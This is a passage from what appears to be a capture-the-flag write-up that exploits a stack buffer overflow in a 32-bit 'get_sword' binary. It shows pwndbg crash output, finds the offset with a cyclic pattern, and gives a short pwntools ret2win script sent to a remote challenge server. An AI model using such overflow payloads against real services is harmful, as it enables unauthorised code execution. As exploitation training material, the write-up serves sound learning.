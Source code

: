 ```









──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffcd10 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
01:0004│     0xffffcd14 ◂— 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
02:0008│     0xffffcd18 ◂— 'laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
03:000c│     0xffffcd1c ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
04:0010│     0xffffcd20 ◂— 'naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
05:0014│     0xffffcd24 ◂— 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
06:0018│     0xffffcd28 ◂— 'paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
07:001c│     0xffffcd2c ◂— 'qaaaraaasaaataaauaaavaaawaaaxaaayaaa'
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0 0x61616169
   1 0x6161616a
   2 0x6161616b
   3 0x6161616c
   4 0x6161616d
   5 0x6161616e
   6 0x6161616f
   7 0x61616170
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

The binary faults obviously and now we can get the offset. So now we can grab whatever was in our instruction pointer and get the offset. 

```
pwndbg> cyclic -l iaaa
Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
```

With that we can now craft our exploit.

```
from pwn import *

binary = context.binary = ELF("./get_sword", checksec=False)

p = remote("173.255.201.51", 31337)

buffer = b'A' * 32

win = binary.sym.getSword

ret = p32(0x0804900e)

payload = buffer
payload += p32(win)

p.sendline(payload)
```